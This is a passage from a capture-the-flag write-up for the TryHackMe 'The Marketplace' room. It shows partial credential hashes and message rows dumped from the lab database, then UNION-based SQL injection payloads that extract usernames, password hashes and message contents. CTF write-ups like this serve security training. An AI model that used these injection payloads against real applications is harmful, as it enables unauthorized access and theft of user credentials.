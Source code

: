 **Credentials from table `users`:**
```
system:$2b$10$83pRYaR/d4ZWJVE
michael:$2b$10$yaYKN53QQ6ZvPz
jake:$2b$10$/DkSlJB4L85SCNhS
```

**Data from table `messages`:**
```
1:1:3:Hello! An automated syst
2:1:4:Thank you for your report
```

**Data from table `items`:**
```
1:2:Dell Laptop:Good as new. :8
2:3:A cactus:Yep, that's a cact
```

However, did you notice something's wrong? Look at the data in table `messages`, it's not the full output.

To fix this, we have to change our payload.

I found that we can also use **UNION**.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a48.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a49.png)

**Let's use UNION to retrieve all data from tables `users` and `messages` !**
```sql
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 0,1--
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 1,1--
0 UNION ALL SELECT concat(username,0x3a,password),NULL,NULL,NULL FROM users LIMIT 2,1--

0 UNION ALL SELECT concat(user_to,0x3a,message_content),NULL,NULL,NULL FROM messages LIMIT 0,1--
```
